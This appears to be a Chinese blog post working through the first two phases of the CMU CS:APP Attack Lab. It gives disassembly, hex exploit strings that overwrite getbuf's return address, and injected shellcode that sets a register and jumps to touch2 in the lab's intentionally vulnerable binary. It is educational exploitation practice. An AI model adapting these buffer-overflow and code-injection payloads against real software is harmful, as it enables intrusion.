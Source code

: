 ```yaml
---
title: "Attack Lab 一二题题解"
date: 2023-03-12T22:15:45+08:00
markup: pandoc
draft: false
categories:
- 编程随笔
tags:
- 深入理解计算机系统
- 堆栈溢出
---
```


最近看深入理解计算机系统的视频，对他们的 Attack Lab 非常感兴趣，于是就找到程序做了一下，感觉还是蛮有意思的。代码和程序需要在 [cmu](http://csapp.cs.cmu.edu/3e/target1.tar) 的网站上下载。下载后解压就可以开始做题了。

## 第一题

第一题说明了程序里有个存在堆栈溢出的程序 `getbuf` ，我们的目的就是利用 `getbuf` 溢出代码并跳转到函数 `touch1()` 上。

本题基本展示了堆栈溢出攻击最基本的形式。

首先我们使用 `objdump -d ctarget >c.txt` 将 disassem 的代码保存到 `c.txt` 里方便我们查看。

我们首先查找 `getbuf` 函数的位置，大概是这样的：

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

代码的意思是，在栈上开辟了一个 40 字节的空间给字符串，并调用 `gets()` 方法写入到栈上。函数完成后，将回退 40 字节，并调用 `ret` 回到原函数。

首先，`ret` 回退地址是保存在当前函数栈之前的，只要我们覆盖了函数栈之前的回退地址，我们就可以跳转到我们想执行的函数上去。

我们首先要获取 `touch1()` 的地址，可以直接在 `c.txt` 里搜索，当然，它就在 `getbuf` 下面。

我们构造一下我们的攻击字符串。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

由于栈空间是低位到高位排布，所以地址也要重新调整一下顺序。前面五行随便什么数字都行，但最后一行必须是地址。

执行：

```shell
./hex2raw <phase.txt | ./ctarget -q
```

结果 PASS 了。

## 第二题

第二题我们要跳转到 `touch2()` 上，但 `touch2()` 是带有参数的，我们不能直接跳转过去。需要首先跳转到我们自己的函数上去，然后再在我们函数上完成参数设置，再跳回去。

这里我们首先要获取 `rsp` 寄存器里存储的字符串地址，这里我们需要借助 gdb 。

用 gdb 打开 ctarget （`gdb --args ctarget -q`），打上断点（`break getbuf`），然后运行至断点（`run`），查看寄存器（`info registers rsp`）即可。

记录下此时的值，这个值减去 `0x28` 就是我们需要的地址。

然后我们构造一下我们的恶意代码：

```assembly
pushq $0x4017ec
mov $0x59b997fa,%rdi
retq
```

第一行是推入 `touch2()` 的地址到堆栈， `rsp` 指针就发生了变动，此时我们 `retq` 就会跳转到 `tocuh2()` 。第二句就是将参数传递给参数寄存器。我们编译该段代码 `gcc -c phase2.s` ，获得 `phase2.o` 文件，使用 `objdump` 查看该文件。

```
0000000000000000 <.text>:
   0:   68 ec 17 40 00          push   $0x4017ec
   5:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   c:   c3                      ret
```

由此我们构建我们的 payload 。

```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

需要注意的是，栈空间是从高到低增长的，但代码空间是低到高增长的。因此，之前将 `rsp` 减去 `0x28` ，就是为了获取最低处的地址，由于代码段和栈空间增长方式不一样，所以我们的攻击代码也要对着写。

后面的题目有机会再写。
